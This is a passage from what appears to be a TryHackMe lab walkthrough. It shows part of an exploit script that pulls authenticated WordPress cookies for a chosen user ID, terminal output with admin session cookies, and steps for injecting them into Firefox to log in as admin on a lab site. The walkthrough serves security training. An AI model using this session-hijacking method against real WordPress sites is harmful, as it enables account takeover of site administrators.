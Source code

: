```python
if response.status_code == 200:
    print("Request successful!\n")
    
    # Extracting cookies
    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)  # Decode the URL-encoded cookie value
        print(f"Cookie {count}:")
        print(f"Cookie Name: {name}")
        print(f"Cookie Value: {decoded_value}\n")
        count += 1
else:
    print("Request failed!")
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
```

The above Python code is already available on the **Desktop** of the attached VM with the name `exploit.py`. Open the terminal and execute the script using the the following command:

Terminal

```cpp
           ubuntu@tryhackme:~/Desktop$ python3 exploit.py 1
Request successful!

Cookie 1:
Cookie Name: wordpress_logged_in_eb51341dc89ca85477118d98a618ef6f
Cookie Value: admin|1734510575|oROXr3wB4mKDymD0koHZenGeStwYsqZbMcWqOlm4QI
Cookie 2:
Cookie Name: wordpress_eb51341dc89ca85477118d98a618ef6f
Cookie Value: admin|1734510575|oROXr3wB4mKDymD0koHZenGeStwYsqZbMcWqOlm4QI2|c29b74eaa
        
```

The above script sends a POST request to the WordPress endpoint and retrieves the authenticated cookie values for the specified `user_id`, with 1 typically being assigned to the first user on the website.

**Note**: The cookie values in the output above are intentionally omitted for the `user_id` 1.

## From Cookies to Admin Login

Now, we will use the cookies retrieved earlier to log in as admin on the WordPress site. While on the `vulnerablewp.thm:8080` page, you can manually inject the cookies into Firefox. To do this, right-click on the page and select **Inspect**, then open the browser's developer tools.

![Accessing dev console through inspect element.](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1733311257718.png align="left")

Once the **Developer** Tools panel is open, look for the **Storage** tab at the top. Click on it to access the storage-related data. Locate and expand the **Cookies** section on the left-hand sidebar of the **Storage** tab. Under **Cookies**, you will see a list of domains for which cookies are stored. Select `http://vulnerablewp.thm:8080` from this list to view all cookies associated with the site.

